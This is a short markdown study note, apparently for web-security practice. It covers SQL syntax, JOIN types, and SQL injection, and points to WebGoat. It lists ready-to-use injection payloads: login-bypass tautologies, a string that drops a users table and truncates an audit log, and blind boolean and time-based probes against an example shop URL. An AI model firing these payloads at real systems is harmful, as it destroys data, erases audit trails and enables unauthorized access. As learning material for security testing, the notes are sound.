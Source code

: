 ### HTTP
1. OWASP ZAP
2. BURPSUIT

---

### SQL injection 
1. Data Manipulation Language (DML)

    `SELECT, UPDATE, DELETE, INSERT`
    
    `SELECT * FROM [table_name] WHERE [column_name]=[value];`
    
    `UPDATE [table_name] SET [column_name]=[value] WHERE [another_column_name]=[value];`

2. Data Definition Language (DDL)

    `CREATE, ALTER, DROP`
    
    `ALTER TABLE [table_name] ADD [new_column_name] [data_type];`

3. Data Control Language (DCL)
    
    `GRANT, REVOKE`
    
    `GRANT ALL ON [table_name] to [user_name];`
    
    `GRANT SELECT, INSERT, UPDATE, DELETE ON [table_name] to [user_name];`

4. SQL Injection
    
    Server
    `SELECT * FROM users WHERE name = '[user_input]';`
    
    Injections
    
    `Bob' or '1'='1`
    
    `Bob' or 1=1; --`   
    
    `Bob'; DROP TABLE users; TRUNCATE audit_log; --`

5. SQL JOIN

    Combine rows from multiple tables.
    - `SELECT [table_A].[column_x], [table_B].[column_y] FROM [table_A] INNER JOIN [table_B] ON [table_A].[column_id] = [table_B].[column_id]`
    
    - JOIN: information on both tables.
    - INNER JOIN: IDs(the id row) of the Intersection of the common IDs. (no NULL if origin tables have no NULL)
    - LEFT JOIN: IDs of the table_A. (with information on table_B if it has the id, or filled with NULL)
    - RIGHT JOIN: IDs of the table_B. (with information on table_A if it has the id, or filled with NULL)
    - FULL JOIN: IDs of the both tables. (combine of LEFT JOIN and RIGHT JOIN)

6. Blind SQL Injection

    ```
       Normal request
       https://my-shop.com?article=4
       Test request
       https://my-shop.com?article=4 AND 1=1
       If response is same, the server takes "AND 1=1" as code.
       So it is vulnerable.
       Exploit
       https://my-shop.com?article=4 AND substring(database_version(),1,1) = 2
       try out the database version even dump the database.
    ```
    
    ```
    Time based
    article=4; sleep(10 --)
    When ture and false`s return are same, we can use time to diffirentiate them.
    ```

7. WebGoat SQL injection advanced 5
    - The link: https://pvxs.medium.com/webgoat-sql-injection-advanced-5-20ce63bf4aec
    ```
    Walk through
    ```


---
